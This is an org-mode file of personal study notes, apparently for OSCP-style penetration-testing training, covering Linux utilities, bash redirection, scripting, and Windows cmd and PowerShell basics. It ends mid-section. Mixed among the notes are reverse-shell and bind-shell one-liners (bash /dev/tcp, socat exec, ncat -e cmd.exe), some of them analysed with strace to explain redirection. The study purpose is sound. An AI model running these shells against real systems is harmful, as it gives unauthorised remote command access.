 ;; -*- mode: org; eval: (company-mode -1); -*-
+ Book1: CISSP_ Certified Information Systems Security Professional Study Guide   (2011, John Wiley & Sons) (788 pages)
+ Book3: Offensive Security - Offensive Security OSCP-Offensive Security Ltd (2020) (853 pages)
+ Book4: Internet Core Protocols The Definitive Guide Help for Network Administrators by Eric Hall (424 pages)
+ Book5: Linux Administration  A Beginner’s Guide, Wale Soyinka (2016, McGraw-Hill) (802 pages)
+ Book6: Windows Internals 7ed, Part 1, User Mode, (Win 10 and Win Server 2016) by David Solomon, etc. (805 pages)
+ Book7: Windows Internals 6ed, Part 2, Developer Reference, (Win 7 and Win Server 2008 R2) by David Solomon, etc. (594 pages)
================================================================================
+ CEH v9 gitbook?
  XSS Exploits cgisecurity.com

* Book3_Chapter 02-05 the basics
*** the linux filesystem hierachy standard(FHS)
   + /bin - basic programs (ls, cd, cat, etc.)
   + /sbin - system programs (fdisk, mkfs, sysctl, etc)
   + /etc - configuration files
   + /tmp - temporary files (typically deleted on boot)
   + /usr/bin - applications (apt, ncat, nmap, etc.)
   + /usr/share - application support and data files 

** linux shell utilities
*** the man page sections
   + the sections:
     | Section | Contents                                       |
     |---------+------------------------------------------------|
     | 1       | User Commands                                  |
     | 2       | Programming interfaces for kernel system calls |
     | 3       | Programming interfaces to the C library        |
     | 4       | Special files such as device nodes and drivers |
     | 5       | File formats                                   |
     | 6       | Games and amusements such as screen-savers     |
     | 7       | Miscellaneous                                  |
     | 8       | System administration commands                 |

  + Apart from the normal search, ~man -k keywords~: keyword search
  + ~man 5 passwd~

*** apropos [keyword]
     + searching the keyword in man page description section for possible instances.

*** mkdir -p(parent)
     + mkdir -p test/{recon,exploit,report} 

*** locate
     + sudo updatedb
     + locate sbd.exe

*** find
     + sudo find / -name sbd* 

     + *find vs locate*
       - find search, while locate use index; find is more flexible, while locate is faster.
       #+begin_quote
       The main advantage of find over locate is that it can search for files and directories by more than just the name. With find, we can search by file age, size, owner, file type, timestamp, permissions, and more.
       #+end_quote
       
*** ss -antlp
     + to dump socket statistics.
     + similar to netstat. It can display more TCP and state information than other tools. 

*** systemctl 
     + systemctl list-units
     + systemctl list-sockets
     + systemctl list-timers
     + systemctl list-dependencies
     + *systemctl list-unit-files*

*** env
     + echo $path
     + x=1 && echo $x
       - echo x //x
       - echo "x" //x
     + export x="2"
     + $$ //current shell pid

**** bash string literal
     + x=2
       - echo $((x++))
       - echo $((x + $x + x))

*** history
    + history
    + !number //or !!
    + ctrl+r //backward search
    + ctrl+s //forward search

    + //effected by 3 env params:
      - HISTSIZE //take effect immediately, numbers of commands stored in memory for the current session
      - HISTFILESIZE //numbers of commands to be stored in the .bash_history file
*** //File Descriptor
**** basic of FD
    | FD | pointer |
    |----+---------|
    | 0  | stdin   |
    | 1  | stdout  |
    | 2  | stderr  |

    + A File Descriptor (FD) is a number which refers to an open file.
      #+begin_quote
      Each process has its own private set of FDs, but FDs are inherited by child processes from the parent process.
      Every process should inherit three open FDs from its parent: *0 ("standard input")*, open for reading; and *1 ("standard output")* and *2 ("standard error")*, open for writing. A process that is started without one or more of these may behave unpredictably. (So never close stderr. Always redirect to /dev/null instead.)
      #+end_quote

    + FD 3,4, ..., 9 are for additional files, need to be open first before used. For more info see:
      - [Advanced Bash-Scripting Guide: Chapter 20. I/O Redirection.](https://tldp.org/LDP/abs/html/io-redirection.html)
      - [how do file descriptors work](https://stackoverflow.com/questions/7082001/how-do-file-descriptors-work)

      #+begin_src
      exec 5<> /tmp/foo  #open fd 5, touch foo if not exist.
      echo "1\n2\n 3456789" >&5
      exec 5>&- #close fd 3.
      cat /tmp/foo
      rm /tmp/foo
      #+end_src

**** FD, basic of redirecting
     + ~:> filename~ //truncates file "filename" to zero length, touch if not exist.
     + ~1>> filename~ //redirect and append stdout to file "filename"
     + ~M>N~ 
       - //"M" is a FD, which is defaults to 1 if not explicitly set.
       - // *"N" is a filename*.
       - //File descriptor "M" is redirect to file "N."
     + ~M>&N~
       - //"M" is a FD, which is defaults to 1 if not explicitly set.
       - // *"N" is a FD*.
       - //"M" is redirected to "N". All output of file pointed to by M gets sent to file pointed to by N.

     + 0<filename, <filename //accept input from a file "filename"
       - cat 0<filename, cat <filename //are semantically equivalent

     + ls ./nonExisting 2>error.txt
     + ls ./nonExisting 2>&1
     + wc -mwl < filename

**** advanced: the mechanisms && stdin, stdout, stderr redirecting.
     + ~bash -i >& /dev/tcp/192.168.140.1/1337 0>&1~ //the meaning.

***** the ~>&~ || ~&>~ //(if FD number is omitted):
      1. *syntax for redirecting stderr*, the 3 variants are semantically equivalent:
         - ~>& dst~
         - ~&> dst~
         - ~> dst 2>&1~ //most human readable
           #+begin_src
           strace -f bash -c 'ls a &> out' 2>&1 | grep -n dup2
           # open, 3(out) => 1(stdout)>3, (dup2(3, 1)) => 2(stderr)>1, (dup2(1, 2))
           strace -f bash -c 'ls a > out' 2>&1 | grep -n dup2
           # open, 3(out) => 1(stdout)>3, (dup2(3, 1))
           #+end_src

      2. *omitting FDs*, if:
         - ~<~ is the first character of the redirection operator: the redirection refers to FD 0(stdin) *dup2(3, 0)* //i.e. 0<fileIn
         - ~>~ is the first character of the redirection operator: the redirection refers to FD 1(stdout) *dup2(3, 1)* //i.e. 1>fileOut

***** the redirect operator: *associativity: l => r; the > operator only pass the pointer address of the FD*
      + ~ls > outFile 2>&1~ //direct both FD 2(stderr) and FD 1(stdout) to the outFile
      + ~ls 2>&1 > outFile~ //direct only FD 1(stdout) to the outFile, because the FD 2(stderr) was dumped to the FD 1 before the FD 1 goes to the outFile
      + ~strace -f bash -c 'ls 2>&1 > outFile' > ls.out 2>&1~ //dup2(oldFD, newFD)
        #+begin_src
        dup2(1, 2)         # pointer address 2 === 1
        # outFile -> 3
        dup2(3, 1)         # pointer address 1 === 3, hence stderr not included
        #+end_src
      + ~strace -f bash -c 'ls > outFile 2>&1' > lsall.out 2>&1~ //dup2(oldFD, newFD)
        #+begin_src
        # outFile -> 3
        dup2(3, 1)         # pointer address 1 === 3
        close(3)
        dup2(1, 2)         # pointer address 2 === 1, stderr included
        #+end_src

***** use the ~strace~:
      + ~strace -f bash -c 'bash -i >& /dev/tcp/192.168.140.1/1337 0>&1' > strace.out 2>&1~ //grep -n 192.168.140.1 strace.out, check syscalls around the line
        - //1(stdout)>3(socket) => 0(stdin)>1(stdout, socket)
        - //since the socket is bidirectional, both read and write are legal.

*** apt(Advanced Package Tool)
    + apt update: update the db info
    + apt upgrade [<packageName>]
    + apt-cache search <keyword>: search in the cached package *description* for the keyword
    + apt show <packageName>
    + apt install
    + apt remove --purge

*** dpkg
    + ~dpkg -i <package.deb>~
    + ~dpkg -l [packageName]~ //with or without packageName
    + dpkg can call apt or use offline package
     
*** grep
    + ~grep [option] <regex> <file>~
      - //without group capturing
    + ~grep -n(--line-number) <keyword> <fileName>~ //show the line number
    + ~grep -ri <keyword> <directory>~
      - //read all files under each directory recursively, search for what matches the "keyword"
    + // some options:
      - i for --ignore-case 
      - v for --reverse(not contain pattern)
      - o for print --only-matching
        
**** bash regex group capturing (planB only. if group capturing is necessary, better use python)
     + [[https://stackoverflow.com/questions/1891797/capturing-groups-from-a-grep-regex][bash regex group capturing]]
     #+begin_src bash
files="*.jpg"
regex="[0-9]+_([a-z]+)_[0-9a-z]*"
for f in $files    # unquoted in order to allow the glob to expand
do
    if [[ $f =~ $regex ]]     # bash regex matcher
    then
        name="${BASH_REMATCH[1]}"
        echo "${name}.jpg"    # concatenate strings
        name="${name}.jpg"    # same thing stored in a variable
    else
        echo "$f doesn't match" >&2 # this could get noisy if there are a lot of non-matching files
    fi
done
     #+end_src

*** <<< (here string)
    + [Here Strings](https://tldp.org/LDP/abs/html/x17837.html)
    + [what does <<< mean](https://unix.stackexchange.com/questions/80362/what-does-mean)

    + read first second <<< "hello world"
    + cat <<< "string"
    + //the tricky part is, it pass the rhs as a string, as the "stdin" of the lhs function. But not all function work with "/dev/stdin".
    + xargs kill <<< "-1 $$" //because xargs works with "stdin"
      
*** << Here Documents (heredoc)
    + the heredoc feed a codeblock to the stdin of the <TGTCOMMAND>. (similar to <TGTCOMMAND> < command-file, where the command-file contains the content of the codeblock)

      - syntax
        #+begin_src bash
        <TGTCOMMAND> <<LimitString
        <command #1>                      # line1 of the codeblock
        <command #2>                      # line2 of the codeblock
        LimitString
        #+end_src
      - example
        #+begin_src bash
        cat <<MEOW
        The current working directory is: $PWD  # comment?
        You are logged in as: $(whoami)
        MEOW
        #+end_src

*** sed
    + ~sed -i.bak -e 's/sed/script/gi' fileName~ //edit --in-place, with backup fileName.bak, and --expression
    + ~echo 'sed in a shell' | sed 's/shell/subshell/g'~ //the last part is *regex flag*
      #+begin_quote
      If no ~-e script~, ~--expression=script~, ~-f script-file~, or ~--file=script-file~ option is given, then the first non-option argument is taken as the sed script to interpret. *All remaining arguments are names of input files; if no input files are specified, then the standard input is read.*
      #+end_quote

*** cut 
    + ~echo "one two, three" | cut -f 2 -d ','~ //-f for field number[ -ge 1 ], -d for the delimiter instead of the default TAB, [ $delimiter.length -eq 1 ]

*** awk
    + ~echo "one::two::three" | awk -F "::" '{print $1, $3}'~ //F to set the field separator
    + should multiple cut are involved, consider switching to awk
    + BEGIN and END block
      #+begin_src bash
awk '
BEGIN { print "Analysis of \"li\"" }
/<regex>/  { ++n }
END   { print "\"<regex>\" appears in", n, "records." }' mail-list
      #+end_src

*** head
    + ~head -vn linesNumber file~ //if no file presented, read stdin

*** sort
    + ~sort -urn~ //unique, reverse, numeric order.
    + ~ps -ef | sort [-t [delimiter]] -k 1d,1 -k 2n,2~ // d for dictionary-order(effected by LC_ALL), n for numeric, [delimiter] could be ":" "\t" "<tab>", etc.; *must specify an end position in multiple key scenario, otherwise an option will effect the whole line*.
      #+begin_quote
      KEYDEF is F[.C][OPTS][,F[.C][OPTS]] for start and stop position, where F is a field number and C a character position in the field; both are origin 1, and the stop position defaults to the line's end.  If neither -t nor -b is in effect, characters in a field are counted from the beginning of the preceding whitespace. OPTS is one or more single-letter ordering options [bdfgiMhnRrV], which override  global  ordering  options for that key. If no key is given, use the entire line as the key. Use --debug to diagnose incorrect key usage.
      #+end_quote

*** uniq
    + ~uniq -c~ //count the number of occurrences
    + //use this after sort, since ~uniq~ only eliminate identical neighbour strings

*** comm
    + ~comm -[123] fileA fileB~ //output three columns: UniqueOfFileA UniqueOfFileB CommonOfFileAB, use -[123] to specify the column to suppress. 

*** diff
    + ~diff -c fileA fileB~ //context, in separate context
    + ~diff -u fileA fileB~ //unified format, all in one.

*** vimdiff
    + ~vimdiff fileA fileB~
      - ~do~ //diffget (o for obtain): get from the other file
      - ~dp~ //diffput: put change to the other file
      - ~]c~ //jump to the next diff
      - ~[c~ //jump to the previous diff
      - ~C-w~ //change window
    + ~:h [vimCommands]~

*** process management
    + job(linux) vs. process: ~cat error.log | wc -m~ is a pipeline of two processes, which the shell consider as a single job.

*** background tasks
    + ~ping localhost &~
    + ~ping localhost~ ~C-z~ //suspend
    + ~bg~ or ~%1 &~ //resume the suspended task at background
    + ~fg~ or ~%1~ //resume the task at foreground
    + ~%~
      - ~%Number(a job-identifier)~ //a job spec(ification), for more info check man bash.
      - ~%String~ //%ping, strings that the command job begins with.
      - ~%+~ ~%%~ //current job
      - ~%-~ //previous job
*** process control
    + ~ps aux~
    + ~ps -ef~ //every, full-format listing
    + ~ps -t 0 -f~ //0 for tty0, - for no tty
    + ~ps -ef f~ //output modifier f as --forest, ASCII art forest tree
    + ~ps -fC [commandNameLessThan15Chars]~

*** kill
    + ~kill -L~ //list kill-signal names in a nice table 
    + ~kill -l 11~ //translate number 11 into a signal name
    + ~kill -9 -1~ //send SIGKILL to almost every processes, since a PID of -1 is special, it indicates all processes except the kill process itself and init.
    + ~kill [pid|jobSpec]~ //send default signal: SIGTERM, to the process|job.

*** tail
    + ~tail -f logFile.log~ //follow the update.
    + ~tail -n[LinesToDisplay]~ //default 10 lines if not specified
  
*** watch
    + ~watch -n 5 w~ //watch the w command(who is logged on and what they are doing) with interval of 5 seconds (default 2 seconds)
    + ~watch -n 1 'ps -ef | sort -k 4nr,4 | head -n 5'~ //watch at 1 second interval for the top 5 processes that has the highest cpu usage, among all processes.

*** wget: downloads files using the HTTP/HTTPS and FTP protocols.
    + ~wget -O report_wget.pdf https://www.offensive-security.com/reports/penetr ation-testing-sample-report-2013.pdf~ // -O as --output-document

*** curl
    + ~curl -o report.pdf https://www.offensive-security.com/reports/penetration -testing-sample-report-2013.pdf~ 

*** axel: FTP/HTTP/HTTPS download accelerator, use multiple connections
    + src:
    #+begin_src sh
axel -a -n 20 -o o.pdf https://example.com/o.pdf
  # -a for alternate progress indicator
  # -n for number of connections
    #+end_src

*** bash ENV variables: see ~man bash~
    + ~HISTCONTROL=ignoredups~

*** netcat //has several versions: nmap-ncat, nc
    + //the original version, ~nc -h ==> [v1.10-46]~
    + ~nc -[u]nlvp 1337 --allow 192.168.140.0/24~ //[u]dp, verbose, nodns, listening, port, allow access from a local network only.
    + ~nc -[u]nv 127.0.0.1 1337~
    + ~nc -znv[u] [ip] 1-100~ //(stealth)scan for listening daemons without sending any data to them. 
    + ~nc -nlvp 1337 > fileReceived~
    + ~nc -nv 127.0.0.1 1337 < fileToSend~
    + ~nc -nlvp 1337 < fileAvailable~
    + ~nc -nv 127.0.0.1 1337 > fileDownloaded~
    + //the nmap maintained version, ~ncat -h ==> [Ncat 7.91 (...nmap.org/ncat)]~: ipv6 support, ssl, etc.
    + ~nc -e cmd.exe --allow [ip] -vnlp 1337 --ssl~ //ssl
    + ~nc -vn [ip] 1337 --ssl~ //the nmap ver. ncat ssl connection
    TODO TCP handshaking and attack vector.(SYN -> SYN/ACK -> ACK)

**** TODO stealth scan (gsec stealth port scanning methods 1985)
    TODO how nc stealth scan work. (wireshark) (it is definitely not stealth: it break nc listening process.)
    + Inverse Mapping
    + Half Open Scan //scanner SYN, target SYN/ACK, scanner RST
    + FIN Scan //FIN on, closed port send RST, open port ignore the packet
    + Xmas Tree Scan //FIN URG PSH on, or all flags on? same as FIN
    + Null Scan //all flags off, same as FIN
    + //FIN, Xmas, Null scan does not work on Windows family/Cisco, HP/UX, IRIX, since they use somewhat different implementation which deviate from the standard.

*** ip
    + ~ip l(ink) show [device]~
    + ~ip a(ddress) show [device]~
    + ~ip r(oute) show~
    + ~ip link set device { up | down | arp { on | off } }~

**** ~ip neigh~ //RFC 4861, neighbor discovery && ipv6 slaac
    - *NS(neighbor solicitation)*: msg.dst === *solicited-node multicast address*
    - *NA(neighbor advertisement)*: the neighbor response with lladdr
    - *RS(router solicitation)*: msg.src === self generated link-local; msg.dst === ff02::2( *all router multicast address* )
    - *RA(router advertisement)*: msg.src === fe80::x(router link-local); msg.dst === ipv6 unicast address of the requester || ff02::1 ( *all nodes multicast address* )

***** *ipv6 slaac* (IPv6 Stateless Address Autoconfiguration)
      1. the device calculate a EUI-64 or random link-local address for itself, say *addrD*
      2. the device perform Duplicate Address Detection(DAD) by sending a *NS* message, in which, src = ::/128(unspecified address), dst = $addrD
      3. confirming no conflict, the device send a *RS* message, in which, src = $addrD, dst = ff02::2
      4. in response, the ipv6 router unicast an *RA* message, in which, src = fe80::x(router link-local), dst = $addrD; the message also contains ipv6 prefix, with which the device configure its *Global Unicast Address* (since the prefix and link-local is always 64 bits long); the message also contains other info such as MTU.

*** socat
    + ~socat [-u|U] TCP-LISTEN:127.0.0.1:1337,fork path/to/file~ //uni-directional mode: U for right to left, u for left to right. Be careful not to override the source file.
    + ~socat tcp-connect:127.0.0.1:1337 exec:/bin/sh,stderr,pty[,setsid,sigint,sane]~ //reverse shell
    + @Deprecated //misc methods:
      - ~socat -d -d TCP4-LISTEN:443 STDOUT~ //...but why bother
      - ~socat TCP4:127.0.0.1:443 EXEC:/bin/bash~ //...use the parameterizes
      
*** openssl
    + ~openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt~
      - ~cat bind_shell.key bind_shell.crt > bind_shell.pem~
      - ~sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash,stderr,pty,setsid,sigint,sane~ //bind_shell, can be connected with nc --ssl option

*** base64 encoding decoding
    + ~echo -n 'cat' | base64 -w 0~ //echo without trailing \n, base64 encoding without auto wrapping
    + ~echo -n 'Y2F0' | base64 -d~ //decode, -i ignore garbage for more tolerance

*** TODO system call tracing, libcall tracing // man syscall
    + ~strace~
      - ~strace -f bash -c 'bash -i >& /dev/tcp/192.168.140.1/1337 0>&1' > strace.out 2>&1~ // -f: trace child processes created, as a result of the fork(2), vfork(2), and clone(2) system calls (quote: man strace). grep -n 192.168.140.1 strace.out, check syscalls around the line
    + ~ltrace -f ls~ // -f: same with strace -f.

*** cat file to variable
    #+begin_src
    var = $( cat v.txt )
    #+end_src


** bash scripting
   + man bash
   + ~#!~ //the "shebang"
   + debug view: ~#!/bin/bash -x~

*** basic syntax
**** *EXPANSIONs*: (man bash::"expansion") 7(8?) kinds of expansions. including dollar sign, with or without single/double parenthesis
     #+begin_quote
       The order of expansions is: brace expansion; tilde expansion, parameter and variable expansion, arithmetic expansion, and command substitution (done in a left-to-right fashion); word splitting; and pathname expansion.
       On systems that can support it, there is an additional expansion available: process substitution. This is performed at the same time as tilde, parameter, variable, and arithmetic expansion and command substitution.
       After  these  expansions  are performed, quote characters present in the original word are removed unless they have been quoted themselves (quote removal).
       Only brace expansion, word splitting, and pathname expansion can increase the number of words  of  the  expansion; other expansions expand a single word to a single word. The only exceptions to this are the expansions of "$@" and "${name[@]}", and, in most cases, $* and ${name[*]} as explained above (see PARAMETERS).
     #+end_quote

***** (misc) double quotes, single quotes, dollar sign
    + // *the dollar sign is evaluated within double quotes, but not within single quotes*
      #+begin_src
      x=1; echo $x        # variables. Note: no space 
      echo "1 + $x"       # '1 + 1'.
      echo '1 + $x'       # '1 + $x'
      y2=1+$x             # "1+1"
      #+end_src

***** 1. brace expansion
         + ~echo a{b,c}e~ # abe ace
           #+begin_src bash
           ls /usr/{ucb/{ex,edit},lib/{ex?.?*,how_ex}}
           #+end_src
         + ~{x..y[..incr]}~ # x, y, incr are ints
           #+begin_src bash
           tCount=0
           for t in {1,{10..60..10}}; do
             echo "t=$t tCount=$tCount"
             (( tCount++ ))
           done 
           #+end_src

***** 2. tilde expansion
         + # the home directory of a login name:
           #+begin_src bash
           ls ~someLoginName
           #+end_src
           
***** 3. parameter (and variable) expansion 
      + # The `$' character introduces *parameter expansion*, command substitution, or arithmetic expansion.
          #+begin_src bash
          a=; b=1;
          echo ${a:-$b}             # 1   # a is null, use default value $b.
          echo ${a:=$b}             # 1   # a is null, assign a default value $b to a. Now a === $b.
          a=; echo ${a:?'err'}      # err # a is null | unset, output errMsg to stderr
          a=2; echo ${a:+$b}        # 1   # nothing happens if a is null | unset, else, output $b
          
          a='abcde'; arr=($(seq 1 10));
          echo ${a: -1}              # 'cde' # ${param:offset}, note the space if [offset -lt 0]
          echo ${a:2:2}              # 'cd'  # ${param:offset:length}
          echo ${arr[@]: -2}         # 9 10
          echo ${!arr[@]}            # 0..9  # print array keys
          echo ${#a}                 # 5     # print
          
          # ... a few more syntax with patterns are not included. see man bash::"parameter expansion"
          #+end_src

***** 4. command substitution: ~$(command)~ or ~`command`~
      #+begin_quote
        Bash performs the expansion by executing command in a subshell environment and replacing the  command  substitution  with  the  standard  output of the command, with any trailing newlines deleted.
      #+end_quote
        
***** 5. arithmetic expansion: ~$((expression))~: eval the arithmetic expression and substitute the result.
         - ~echo $(((1+1)**(1+2)))~     # 8
         - ~echo $(((1+1) % (1+2)))~    # 2
          
***** 6. process substitution: ~<(list) or >(list)~
      #+begin_quote
        Process substitution allows a process's input or output to be referred to using a filename. It takes the form of <(list) or >(list). *The process list is run asynchronously*, and its input or output appears as  a filename. This filename is passed as an argument to the current command as the result of the expansion. If the >(list) form is used, writing to the file will provide input for list. If the <(list) form is used, the file passed as an argument should be read to obtain the output of list. Process substitution is supported on systems that support named pipes (FIFOs) or the /dev/fd method of naming open files. When available, process substitution is performed simultaneously with parameter and variable expansion, command substitution, and arithmetic expansion.
      #+end_quote
      
***** ? 7. word splitting: *IFS*

***** 8. pathname expansion: man bash::"pattern matching"
      
***** # conclusion:
     + ~$(command)~: *command substitution*. execute the command in a subshell then substitute the expression with the stdout of the subshell.
       - ~user=$(whoami)~
     + ~(command)~: fork and execute the commands in a subshell, shared FDs with the parent shell. see *compound commands*
       - ~a=1;(a=2; echo $a); echo $a~       # 2\n1
     + ~$((expression))~: *arithmetic expansion*. substitute the expression with the result of the calculation.
       - ~a=$((1+1)); echo $a~               # 2
     + ~((expression))~ *math context*. see *compound commands*.
       - ~((a=1+1)); echo $a~                # 2
     + ~${...}~ *parameter (and variable) expansion*
       - ~echo ${a}, ${SHELL}~               # 2, /bin/bash
     + ~{ commands; }~: *group command*. execute the commands in the braces as a group in the current execution context.
         #+begin_src bash
         a=5; echo '5cContent' > 5c
         cat ${a}c                              # 5cContent
         #+end_src
     + other related:
       - ~a="ls"; $a -la;~                             # ls -la

**** *compound commands* (man bash::"compound commands")
***** ~(commands)~: *fork* and execute the commands in a *subshell*, shared FDs with the parent shell.
     + [[https://unix.stackexchange.com/questions/138463/do-parentheses-really-put-the-command-in-a-subshell][StackExchange::do parentheses really put the command in a subshell]]
       #+begin_quote
         A subshell starts out as an almost identical copy of the original shell process. Under the hood, the shell calls the *fork* system call, which creates a new process whose code and memory are copies. When the subshell is created, there are very few differences between it and its parent. In particular, they have the same variables. Even the $$ special variable keeps the same value in subshells: it's the original shell's process ID. Similarly $PPID is the PID of the parent of the original shell.
         *A subshell created by (…) has the same file descriptors as its creator*. *Some other means of creating subshells modify some file descriptors before executing user code*; for example, the left-hand side of a pipe runs in a subshell3 with standard output connected to the pipe. The subshell also starts out with the same current directory, the same signal mask, etc. ...
       #+end_quote
     
***** ~((expression))~: *math context*.
      #+begin_quote
        The expression is evaluated according to the rules described below under ARITHMETIC EVALUATION.  If the value of the expression is non-zero, the return status is 0; otherwise the return status is 1.  This is exactly equivalent to ~let "expression"~.
      #+end_quote
      #+begin_src bash
      let a=17+23; echo $a
      let a="17 + 23"; echo $a
      
      # (()) works identical to ~let~
      ((a += 7))
      if ((a > 5)); then echo 'a > 5'; fi
      (( 1 + 1 == 2 ? 1 : $(echo 'hi' >& 2; echo 1)))   # hi
      $(( 1 + 1 == 2 ? 1 : $(echo 'hi' >& 2; echo 1)))  # hi 1
      #+end_src
      
***** ~{ commands; }~: a *group command*. executed in the current shell environment
      #+begin_quote
        (the commands are simply) executed in the current shell environment. list must be terminated with a newline or semicolon. This is known as a group command. The return status is the exit status of list. ...
      #+end_quote

***** ? loop
      #+begin_src bash
      for i in {1,{10..60..10}}; do echo 10.11.1.$i; done         # note that no spaces between braces
      
      counter=1
      while [ $counter -lt 10 ]
      do
      echo "10.11.1.$counter"; ((counter++))
      done
      #+end_src
      + ~for name [ [ in [ word ... ] ] ; ] do list ; done~
      + ~for (( expr1 ; expr2 ; expr3 )) ; do list ; done~
      + ~select name [ in word ] ; do list ; done~

*** bash array (man bash::"Arrays")
     + ~arr=($(seq 1 10)); echo ${arr[2]}~             # 3
       
*** bash arguments
    | Sign      | Description                                                          |
    |-----------+----------------------------------------------------------------------|
    | $0        | argv[0]                                                              |
    | $1-$9     | argv[1]-argv[9]                                                      |
    | $#        | argc                                                                 |
    | $@        | argv                                                                 |
    | $?        | The exit status of the most recently run process                     |
    | $$        | The process ID of the current script                                 |
    | $USER     | The username of the user running the script                          |
    | $HOSTNAME | The hostname of the machine                                          |
    | $RANDOM   | A random number                                                      |
    | $LINENO   | The current line number in the script. (man bash::"Shell Variables") |
    | $-        | The current *set of options* of the shell. (man bash)                |

*** ? ~read~ //userInput
    + ~read -p~
        #+begin_src bash
        #!/bin/bash
        echo "y/N?"
        read answer
        echo "answer: $answer" 
        read -p 'id: ' id
        read -sp 'pw: ' pw;
        printf "\n\nid: $id, pw: $pw"
        #+end_src

*** if //conditioning
    #+begin_src
    if [ <some test> ] && [ <some test> ]
    then
      <actions>
    elif [ <some test> ] || [ <some test> ]
    then
      <actions>
    else
      <actions>
    fi
    #+end_src

*** test operators
    | Operator              | Description: Expression True if...     |
    |-----------------------+----------------------------------------|
    | !EXPRESSION           |                                        |
    | -n STRING             | STRING length is greater than zero     |
    | -z STRING             | The length of STRING is zero (empty)   |
    | STRING1 != STRING2    |                                        |
    | STRING1 = STRING2     |                                        |
    | INTEGER1 -eq INTEGER2 |                                        |
    | INTEGER1 -ne INTEGER2 |                                        |
    | INTEGER1 -gt INTEGER2 |                                        |
    | INTEGER1 -lt INTEGER2 |                                        |
    | INTEGER1 -ge INTEGER2 |                                        |
    | INTEGER1 -le INTEGER2 |                                        |
    | -d FILE               | FILE exists and is a directory         |
    | -e FILE               | FILE exists                            |
    | -r FILE               | FILE exists and has read permission    |
    | -s FILE               | FILE exists and it is not empty        |
    | -w FILE               | FILE exists and has write permission   |
    | -x FILE               | FILE exists and has execute permission |
    
*** bitwise
    #+begin_src bash
    printf '%X\n' "$(( 0x12345678 | 0xDEADBEEF ))"     # Bitwise OR
    printf '%X\n' "$(( 0x12345678 & 0xDEADBEEF ))"     # Bitwise AND
    printf '%X\n' "$(( 0x12345678 ^ 0xDEADBEEF ))"     # Bitwise XOR
    printf '%X\n' "$(( ~ 0x2C8B ))"                    # Bitwise NOT
    #+end_src
    
    





** cmd scripting
*** basic
    #+begin_src bat
    @echo off
    echo hi
    pause

    goto end
    echo 'skipped'
    :end

    @echo off 
    #+end_src

**** ~set~ //variables
     #+begin_src bat
     REM set                                  //list all existing env variables
     REM set [<variable>=[<string>]]
     REM set [/p] <variable>=[<promptString>]
     REM set /a <variable>=<expression>
    
     SETLOCAL
     SET /A a = 5  # natural
     SET /A b = 10 
     SET /A c = %a% + %b% 
     echo %c%
     ENDLOCAL
     #+end_src

**** ~for~ // no, use powershell
     + ~FOR /F "tokens=1-5" %%A IN ("This is a short sentence") DO @echo %%A %%B %%D~
     + ~FOR %%G IN (a,b,c) DO (md %%G)~ // mkdir a,b,c
     + //%% vs %, expect %% in .bat script file, expect % in a cmd prompt.

*** cat to variable
    + ~powershell -c "$v=cat file; $v"~


** cmd utilities
   + ~pathping -n ip~ //route tracing utility.
   + ~tracert ip~ //route tracing utility, less info than pathping.
   + ~netstat -an~ //display all connections and listening ports, in numerical form.
   + ~systeminfo~
   + ~tasklist /svc~ // display services hosted in each process; /v for verbose
   + ~taskkill /pid 1 /pid 2 /T~ //terminate all specified processes and their child processes; /F for forcefully end.
   + ~driverquery -v~
   + ~assoc~ //e.g. assoc .txt
   + ~ipconfig~ // /flushdns, /rebase, /renew
   + ~powercfg~ // /A list all available sleep states; /hibernate on | off; /energy 
   + ~shutdown~ // /h for hiberanate; /r /o restart to advanced start-up 
   + ~sfc /SCANNOW~ //Windows Resource Checker


** TODO powershell scripting
   + ~(Get-Host).version~
   + ~Get-Help(help)~
   + ~Set-ExecutionPolicy Unrestricted~
   + ~Get-ExecutionPolicy~
   + #!/bin/bash ~powershell -c ""~ //powershell parse syntax like $var within the parentheses while bash does not
   + ~echo ([System.Text.Encoding]::Default)~ //get system default text encoding
   + //the *square brackets*. No reference. But seems [.Net TypeName]::staticMethod is legal in powershell.

*** TODO breakpoint?

*** Base64 encoding in powershell
   + base 64 encoding
     #+begin_quote
     $txt = "こんにちは"
     $byte = ([System.Text.Encoding]::Default).GetBytes($txt)
     $b64enc = [Convert]::ToBase64String($byte)
     #+end_quote 
   + base 64 decoding
     #+begin_quote
